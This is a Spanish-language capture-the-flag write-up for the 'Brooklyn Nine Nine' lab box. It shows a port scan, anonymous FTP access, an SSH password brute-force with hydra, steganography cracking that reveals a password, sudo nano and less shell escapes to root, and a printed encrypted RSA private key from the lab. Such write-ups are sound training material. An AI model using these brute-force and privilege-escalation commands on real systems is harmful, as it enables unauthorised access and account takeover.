 # Brooklyn Nine Nine
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```
## Enum 
### FTP 
Tenemos un login Anonymous habilitado, entramos y solo podemos recuperar lo siguiente
```
-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
```
El archivo nos habla de un user con una pass debil
```
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
Vamos a probar a tirar de bruteforcing 
```
hydra -l jake -P ~/rockyou.txt ssh://10.10.128.204
```
Y tenemos la pass 
```
[22][ssh] host: 10.10.128.204   login: jake   password: 987654321
```

### HTTP
En el fuente de la página encontramos el siguiente comentario:
```html
<!-- Have you ever heard of steganography? -->
```
Y la pagina parece tener solamente una imagen asi que descargemosla y probemos con stegcracker
```
Attacking file 'brooklyn99.jpg' with wordlist '~/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20458 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```
Veamos el archivo:
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Con esto ya podemos entrar como holt

## Privesc
### Holt 
```
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
Easy Peasy
```
holt@brookly_nine_nine:~$: sudo /bin/nano -s /bin/sh
> /bin/sh
> [CTRL + T]
root@brookly_nine_nine:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Jake
```
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
Easy 2.0
```
jake@brookly_nine_nine:~$ sudo less /etc/profile
> !/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Amy

Dentro de la carpeta de amy encontramos una clave rsa
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,8A45EF5CE95F44B523FBD6AEEAD2B9E6

//MOmD5ttJ6rTXqLiBtvOmCcXLWmgexGwQZc2sy6P9mVlh9nUD2g2gN/SwyOIOzo
pWBjAatk7qpqwbsGDstQsKErCDGCH/qjF49zG1meMNbzxFQAT5vOxGM/0oYJwD9F
BKeRcOqY0vKjiJz0Wf9ZA3+CF3xdjNvVhneGe3BE1jEX2J3+sGZ0qiNLkYn6Mw+h
jDLglBkq1qNxsGD1uKI6Hau4tOykPDphrhTiY+os7zyloEaVto53d1JUolL0W6qG
OwjIY37KP0VjwUClUivwu24yWJLZ8ISIy+PVb9AXcOSERxSFbXpuWMVurYpenc5a
TyinBbDZI31+xStteQYCb3SrnPlHQC1waAMr22RzXMSNpdJ29D7Use8CMMsBofFv
5v43IhNuNVuGik1Qoh4kg45aIW4PHpEIzHqz89hzHnTNJnbkZIri4VPDu1+tgeUB
YVXclhpOXj+AI8FeJix1OIW6lGQM48iApBq0GQn5877vxaepP2A2BU44Ips2WYvG
WxD8u9nW7muG8hEtU/Jmz1v1j5PIJm9BENkam/4/7VRbGw2RO3FUjpAHsdnzr+k5
yZ/sxWpVkIhbO3SO3/+TUTIAODZJ3fJB5fHspXCwIjWoU4ff6aW+LsDv5rpXbrxt
IqA+mpn31fwr0nmVYS/+seDA0atdFl6c+1Zav7dSoNF+hlqssxX7YXm3+LGQdQWa
gSNNSS3Cj6gyPUSs6+t0mKHzgnB/Ofah2epLzi9/K+UxKtyCjnKlYV8GSH+EZIPk
YPKGnzHet4QRrhP6YYeBfatDeblxIQZX1u6G9gGkWqFFIXgMe2wDyaoBA/cS2/am
GcS1SP0tNOZCsAMz5Q87YG44nhaSJReuUnna4fHBhti6pymWZYXvecovB/23xpNu
LDkoxmZDa/jUfO0Ua9xuhjp3usT3Nin2iAUl3inLXzpr6wQDoW1OuZbV6jitqdMv
v1Yf/Ycn5/g07aCpVAv8VyZ1J2/ilDOFuaVPQBJXKsm79fbLbXj2gTGjwKTo2JBa
EqPBMxD1X2gKxUQky9c/W1NfvZ1DqdU2+KC9o/qztuWRzO+MA/UwGKEJ93mcmeqA
6cxRy+IuzuS4/U7EegNLd6VkAJANYgXmr6Q3HlzuH8opFvh33VFejww4/w99jQfZ
mTSqSPS0QX9Sdo7U58IfDq+j13Il/aymcSWkBw6/DDwdDzl/7ZQ/X/XqE0Jjh1QY
Ro6xjI5LnDDCZjXkNu0Da/AfQG/Y0AzZUylhnH0/l4vdXPGDRffxlEQQNnGKwGk9
GSFvIHuEni9c/G7vW/wNgI9mSlycR02oCVyInHMepcLWDYyIAyFEyh/G65iGG0Z/
Y6cdOJSYTyuwVbK8469YHowvD4/7urHaSLeNmViT+URyoRLp9wV/8HaNMW5q5i6D
p0TrrdkFQiDR5X+rbfL+EgFYCwOanABkK+FzptbXB0ABte7L+PSICvZKsCn/yo6z
fxraAZ0nJejWQEYEH99o7T7uHkR+CZSD8gWPBsaP8pfPJSeKR9LzXG3MOWGc+5/p
gZBPQI5EwbUaWtnwEKqzTqT1G/+iYps8ExqUGj9lZWPnwNAEnWXiKJfTZF2lJyqz
-----END RSA PRIVATE KEY-----

```
Si la crackeamos veremos que la contraseña es jake1 , el problema es que nos pide pass y clave para entrar como amy, asi que no se de donde sacarla
